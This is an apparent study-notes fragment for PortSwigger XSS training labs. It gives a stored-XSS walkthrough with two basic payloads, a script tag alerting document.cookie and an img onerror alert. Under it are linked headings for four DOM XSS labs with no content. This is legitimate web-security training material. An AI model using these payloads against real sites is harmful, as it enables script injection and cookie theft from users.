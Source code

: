 Goal: submit a comment that calls the `alert` function when the blog post is viewed.

- go to any post and write any basic `xss` payload 
  ```
  <script>alert(document.cookie)</script>
  OR
  <img src=1 onerror=alert(1)>
  ```

- Enter a name, email and website.

- Click "Post comment".



---

### [DOM XSS in `document.write` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)







---

### [Lab: DOM XSS in `innerHTML` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)















---

### [DOM XSS in jQuery anchor `href` attribute sink using `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)















---

### [DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
